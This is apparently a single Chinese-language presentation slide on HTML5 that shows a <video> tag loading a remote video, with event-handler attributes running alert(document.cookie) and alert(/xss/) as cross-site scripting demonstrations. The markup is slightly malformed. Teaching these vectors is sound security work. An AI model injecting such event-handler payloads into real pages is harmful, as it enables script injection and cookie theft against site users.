

# HTML5概述
使用HTML5中新增的<video>标签，在网页中远程加载一段视频
<video src=“http://tinyvid.tv/file/29d6g90a204il.ogg” 				onloademetadata=“alert(document.cookie);” 	   	ondurationchanged=“alert(/xss/);”ontimeupdate=“alert(/xss1/	);”tabindex=“0”>
</video>